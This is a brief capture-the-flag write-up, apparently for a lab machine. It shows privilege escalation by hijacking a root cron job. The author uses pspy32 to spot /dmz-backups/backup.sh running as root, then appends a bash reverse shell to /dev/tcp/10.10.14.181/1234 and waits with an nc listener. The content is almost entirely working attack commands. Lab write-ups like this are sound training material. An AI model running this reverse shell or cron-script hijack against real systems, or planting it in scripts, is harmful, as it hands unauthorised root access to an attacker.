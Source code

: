 # IP : 
> 10.129.2.210

# Interesting file :
> /dmz-backups/backup.sh

# Cmd use : 

> /pspy32 -pf -i 1000|grep backup.sh <Searching backup.sh Process ID>
2022/09/01 13:59:43 CMD: UID=1008 PID=2009   | grep --color=auto backup.sh 
2022/09/01 14:00:01 CMD: UID=0    PID=2023   | /bin/bash /dmz-backups/backup.sh 
2022/09/01 14:00:01 CMD: UID=0    PID=2022   | /bin/sh -c /dmz-backups/backup.sh

> cp /dmz-backups/backup.sh backup.sh <Create Backup

> nano /dmz-backups/backup.sh <Editing backup.sh>
 
> #!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -c "bash -i >& /dev/tcp/10.10.14.181/1234 0>&1" 0>&1 <Adding Bash Reverse Shell >

> nc -lvnp 1234